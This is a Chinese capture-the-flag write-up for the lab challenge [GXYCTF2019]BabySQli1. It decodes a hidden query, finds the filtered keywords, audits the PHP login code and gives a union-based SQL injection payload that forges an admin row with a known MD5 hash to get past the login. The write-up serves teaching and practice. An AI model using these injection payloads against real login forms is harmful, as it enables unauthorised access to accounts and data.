




## [GXYCTF2019]BabySQli1

1、首先启动靶机并访问，映入眼帘的就是一个登录系统，很明显考的是Sql注入。



2、admin登录，显示wrong pass，查看源代码发现一串加密字符串



```
<!--MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5-->
```

3、搞了半天没搞懂这是啥加密，结果查了一下我说是base32+base64混合加密。所以我们需要先进行base32解码再进行base64解码，最后就得到了一段sql语句



```
select * from user where username = '$name'
```

4、从这段语句可以知道，使用了单引号过滤。然后开始sql注入测试

```
先测试下万能密码
admin' or 1=1#	//显示do not hack me!，推测是进行了过滤


这里可以进行手动测试或者用字典爆破来测试出所有被过滤的关键字。
我这里手测发现过滤了()、=、or

没有过滤union和select，所以我们这里判断下列数，因为or被过滤了，所以不能使用order by
admin' group by 3#	//测出有3列
```

5、这时候实在做不下去了，查了下题解，结果跟我说要看源码，我无语了，那就看吧



代码审计：

```
if(preg_match("/\(|\)|\=|or/", $name)){
	die("do not hack me!");
}
else{
	if (!$result) {
		printf("Error: %s\n", mysqli_error($con));
		exit();
	}
	else{
		// echo '<pre>';
		$arr = mysqli_fetch_row($result);
		// print_r($arr);
		if($arr[1] == "admin"){
			if(md5($password) == $arr[2]){
				echo $flag;
			}
			else{
				die("wrong pass!");
			}
		}
		else{
			die("wrong user!");
		}
	}
}

首先正则可以看出我们测试出来的被过滤的字符没有问题，就是这几个。
然后就是重点来了：
这里会将查询后的结果分为3个字段赋值给$arr，然后我们如果要得到flag的话，必须让$arr[1] == "admin"，即第二个字段名需要为"admin"，然后我们输入的password在md5加密后需要等于第三个字段名，这样就能拿到flag。

注意：$arr[]数组是从0下标开始的，所以$arr[1]为第二个字段名
```

6、payload：

```
POST：
name=-1' union select 1,"admin","e10adc3949ba59abbe56e057f20f883e"#&pw=123456

"e10adc3949ba59abbe56e057f20f883e"即为123456密码md5加密后的结果。
注意：这里闭合前需要填一个不存在的用户名，这样才会回显我们联合查询的数据
```

然后就拿到flag了
